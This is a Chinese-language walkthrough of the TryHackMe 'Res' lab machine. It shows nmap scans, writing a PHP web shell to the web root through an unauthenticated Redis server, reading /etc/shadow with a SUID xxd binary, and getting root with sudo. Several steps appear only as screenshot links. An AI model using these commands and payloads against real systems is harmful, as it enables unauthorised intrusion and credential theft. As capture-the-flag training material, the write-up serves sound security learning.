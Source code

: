 ```yaml
---
sidebar_position: 43
tags: [Easy, Linux, 匿名身份登陆-Redis, SUID, SUDO]
title: Res
description: Res
sidebar_label: Res
slug: /tryhackme/43
---
```

# Res
## 端口扫描
```bash
root@ip-10-10-182-247:~/res# nmap -sT -p- --min-rate 1000 10.10.194.1

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-29 08:02 BST
Nmap scan report for ip-10-10-194-1.eu-west-1.compute.internal (10.10.194.1)
Host is up (0.012s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
6379/tcp open  redis
MAC Address: 02:61:6D:8D:F9:87 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.31 seconds
root@ip-10-10-182-247:~/res# nmap -sTCV -p  80,6379 --min-rate 1000 10.10.194.1

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-29 08:03 BST
Nmap scan report for ip-10-10-194-1.eu-west-1.compute.internal (10.10.194.1)
Host is up (0.00016s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7
MAC Address: 02:61:6D:8D:F9:87 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.98 seconds
```
## 6379 - REdis
redis 允许未授权访问, 因此可以尝试基于此来写入 WebShell 

```bash
root@ip-10-10-182-247:~/res# redis-cli -h 10.10.147.205
10.10.147.205:6379> config set dir /var/www/html/ 
OK
10.10.147.205:6379> config set dbfilename shell.php
OK
10.10.147.205:6379> config set dbfilename shell.php
OK
10.10.147.205:6379> set test "<?php system($_GET['cmd']) ?>"
OK
10.10.147.205:6379> save
OK
```
![20240628225037](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628225037.png)

## 后渗透
### www-data

![20240628225054](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628225054.png)

### www-data --> vianka

枚举 SUID 程序我发现 [xxd](https://gtfobins.github.io/gtfobins/xxd/#suid) 具有特权

![20240628225122](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628225122.png)

使用 xxd 进行读取 /etc/shadow 文件, 并解密 vianka 的密码

![20240628225144](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628225144.png)

使用此进行登陆并且发现用户具有 sudo 特权

![20240628225155](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628225155.png)

### vianka --> root
```bash
vianka@ubuntu:~$ sudo /bin/bash -p
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```